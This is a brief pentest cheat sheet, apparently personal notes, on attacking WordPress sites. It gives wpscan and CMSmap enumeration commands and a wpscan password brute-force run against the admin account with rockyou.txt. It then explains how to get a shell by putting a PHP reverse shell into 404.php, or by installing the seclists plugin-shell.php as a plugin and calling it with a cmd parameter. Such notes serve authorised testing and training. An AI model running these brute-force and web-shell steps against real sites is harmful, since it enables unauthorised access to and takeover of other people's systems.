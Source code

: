 ```yaml
---
description: Wordpress enumeration tools.
---
```


# Wordpress

CMSMAP - [https://github.com/Dionach/CMSmap](https://github.com/Dionach/CMSmap)

wpscan - [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)P

I installed CMSMAP at /opt/cmsmap directory.

```
cd /opt/cmsmap
$ python3 cmsmap.py http://192.168.1.2
```

```
$ wpscan --url http://192.168.1.2/ --api-token {APITOKEN}

$ wpscan --url http://192.168.1.2/ --passwords ~/rockyou.txt --usernames admin

$ wpscan --update --url http://192.168.1.2/ --enumerate ap --plugins-detection aggressive
```

### Getting reverse shell

When we have access to the admin panel, we can get reverse shell or cmd shell via editing php file or installing plugin.

#### Editing file

Appearance -> Editor -> 404.php -> (PentestMonkey or IvanSincek) PHP Reverse Shell or Php CMD Shell

Sometimes, we can not change page contents. We can get it with plugins.

#### Installing Plugin-Shell

We can use plugin-shell.php or Php reverse shell files.

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ sudo zip plugin-shell.zip plugin-shell.php
```

[http://target/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami](http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami)
